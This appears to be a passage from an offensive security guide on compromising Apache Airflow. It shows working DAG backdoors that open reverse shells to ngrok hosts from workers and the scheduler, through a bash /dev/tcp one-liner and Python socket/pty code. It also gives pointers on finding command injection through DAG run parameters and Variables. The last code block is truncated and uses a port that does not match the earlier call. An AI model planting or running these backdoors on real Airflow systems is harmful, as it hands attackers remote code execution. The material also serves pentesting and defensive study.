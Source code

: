 DAG Backdoor (RCE in Airflow worker)
If you have write access to the place where the DAGs are saved, you can just create one that will send you a reverse shell.
Note that this reverse shell is going to be executed inside an airflow worker container:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
    dag_id='rev_shell_bash',
    schedule_interval='0 0 * * *',
    start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
    run = BashOperator(
        task_id='run',
        bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
    )
```
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
    s = socket.socket()
    s.connect((rhost, port))
    [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
    pty.spawn("/bin/sh")

with DAG(
    dag_id='rev_shell_python',
    schedule_interval='0 0 * * *',
    start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
    run = PythonOperator(
        task_id='rs_python',
        python_callable=rs,
        op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
    )
```
DAG Backdoor (RCE in Airflow scheduler)
If you set something to be executed in the root of the code, at the moment of this writing, it will be executed by the scheduler after a couple of seconds after placing it inside the DAG's folder.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
    s = socket.socket()
    s.connect((rhost, port))
    [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
    pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
    dag_id='rev_shell_python2',
    schedule_interval='0 0 * * *',
    start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
    run = PythonOperator(
        task_id='rs_python2',
        python_callable=rs,
        op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
DAG Creation
If you manage to compromise a machine inside the DAG cluster, you can create new DAGs scripts in the dags/ folder and they will be replicated in the rest of the machines inside the DAG cluster.
DAG Code Injection
When you execute a DAG from the GUI you can pass arguments to it.
Therefore, if the DAG is not properly coded it could be vulnerable to Command Injection.
That is what happened in this CVE: https://www.exploit-db.com/exploits/49927
All you need to know to start looking for command injections in DAGs is that parameters are accessed with the code dag_run.conf.get("param_name").
Moreover, the same vulnerability might occur with variables (note that with enough privileges you could control the value of the variables in the GUI). Variables are accessed with:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
If they are used for example inside a bash command, you could perform a command injection.
